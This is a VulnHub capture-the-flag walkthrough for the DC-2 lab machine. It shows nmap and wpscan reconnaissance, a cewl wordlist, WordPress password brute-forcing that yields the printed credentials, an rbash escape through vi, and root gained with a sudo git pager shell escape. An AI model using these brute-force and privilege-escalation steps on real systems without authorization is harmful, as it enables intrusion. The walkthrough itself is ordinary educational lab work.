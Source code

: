 ```yaml
---
layout: post
title: DC-02 writeup
tags: [vulnhub]
---
```

Hello guys, it is Shin today been a while that we have posted a post in our blog but we swear we will try to post more in the future so anyways today we will guide you in rooting DC-02 made by DCAU.

# Recon
Firstly, let's find the ip of the machine by doing:
``` sudo netdiscover -r ip/24 ```

![](/img/vulnhub/dc-2/netdiscover)
<br>after finding the ip of the machine you can now do your attacks and don't forget to edit your /etc/hosts to add dc-2. </br>
## nmap
```
Nmap scan report for dc-2 (192.168.0.131)
Host is up (0.0084s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)

```
# HTTP
Visiting the website gave me this good look and it seems to be a wordpress site so I decided to use wpscan.

![](/img/vulnhub/dc-2/website.png)
Going to the flag option in the menubar , we got a good hint for us to move ahead.

![](/img/vulnhub/dc-2/Flag.png)
## WPSCAN
By using wpscan we can see the vulnerable parts of the wordpress site and the one thing that really caught my attention was the xmlrpc
![](/img/vulnhub/dc-2/wpscan.png)
<br>After I did some asking around with my peers they told me that you can try and bruteforce xmlrpc by doing a certain command.</br>
### Users
first we enumerate the users by using this command:
<br>```wp scan --url http://dc-2/  -e u```
![](/img/vulnhub/dc-2/users.png)

I found three usernames : admin, jerry and tom as the hint said we have to generate our own custom wordlist so I decided to use cewl to generate it 
```cewl http://dc-2/ -w password```
![](/img/vulnhub/dc-2/users.png) 

We have now a dictionary for passwords and 3 multiple users that we can use for bruteforcing, now let's try to bruteforce the website using wpscan:
![](/img/vulnhub/dc-2/success.png)
#### Sucess:
```
 Valid Combinations Found:
 | Username: jerry, Password: adipiscing
 | Username: tom, Password: parturient
```
After getting the credentials, I have tried to login to each account to make sure I don't miss something and there it was we have found the flag 2:
![screenshot of flag2](/img/vulnhub/dc-2/flag2.png)
# Root
Since the clue was telling us to find another entry point  to reach our final flag, I suddenly tried to login through ssh using Tom's credentials and it worked but unfortunately we were put in a restricted shell and so I found out that I can use vi in the restricted shell so I used it to escape the shell.

![rbash](/img/vulnhub/dc-2/rbash.png)
<br>After escaping the restricted shell, we have to export “/bin/bash” as our SHELL environment variable and “/usr/bin” as  our PATH environment variable so that we can run Linux commands  properly by doing the command below:
<br>```export PATH=$PATH:/bin:/usr/bin```

<br>Now we can read the flag and have a functional linux commands.
By reading the flag3 it's already telling us to change user to Jerry.
```Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.```

Reading the flag 4 in Jerry's directory and checking Jerry's permission is already telling my senses that to gain root we have to use git.
![flag4](/img/vulnhub/dc-2/flag4.png)

By checking https://gtfobins.github.io/ I can really say I am in the right path to root the machine.
Yep this looks promising!
```sudo git -p help config
!/bin/sh
```
Let's try it!
![root](/img/vulnhub/dc-2/root.png)

BOOM! and we are root everyone
![flag](/img/vulnhub/dc-2/final-flag.png)

And that's how you root DC-2 guys, it was fun learning some things especially escaping the rbash and it was my first time using gtfobins to gain root and I really do recommend to take a look at it. 
Good luck everyone!

--Shin

